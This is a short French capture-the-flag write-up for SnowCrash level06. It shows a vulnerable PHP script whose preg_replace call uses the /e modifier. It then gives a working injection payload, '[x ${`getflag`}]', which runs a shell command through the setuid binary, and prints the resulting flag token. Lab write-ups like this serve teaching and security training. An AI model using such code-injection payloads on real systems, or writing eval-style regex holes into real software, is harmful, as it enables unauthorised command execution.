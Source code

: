 # Level 06

En arrivant sur le level, nous voyons un executable, et un fichier .php.

```bash
cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

En lisant les regex, nous voyons que le fichier va chercher les strings avec [x ...] et va les remplacer par le resultat de la fonction y.
La fonction y va remplacer les '.' par ' x ' et les '@' par ' y'.
Nous pouvons utiliser le fait que /e execute le resultat de la regex pour executer du code php.
(entourer une commande de ` permet de l'executer)

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/php_exploit
level06@SnowCrash:~$ ./level06 /tmp/php_exploit
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
